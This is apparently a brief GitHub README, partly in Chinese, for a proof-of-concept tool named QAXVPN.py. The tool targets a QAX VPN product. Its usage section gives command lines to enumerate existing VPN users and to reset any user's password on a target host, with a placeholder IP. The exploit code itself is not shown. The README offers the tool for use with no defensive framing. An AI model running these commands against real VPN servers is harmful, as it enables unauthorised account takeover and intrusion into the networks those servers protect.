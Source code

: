 # QAX_VPN Any User Password Reset Poc


   ### 使用方法
* ##### 遍历当前存在用户</br>
      python QAXVPN.py -t https://1.1.1.1 -lu
* ##### 修改任意用户密码</br>
      python QAXVPN.py -t https://1.1.1.1 -u user1 -cp
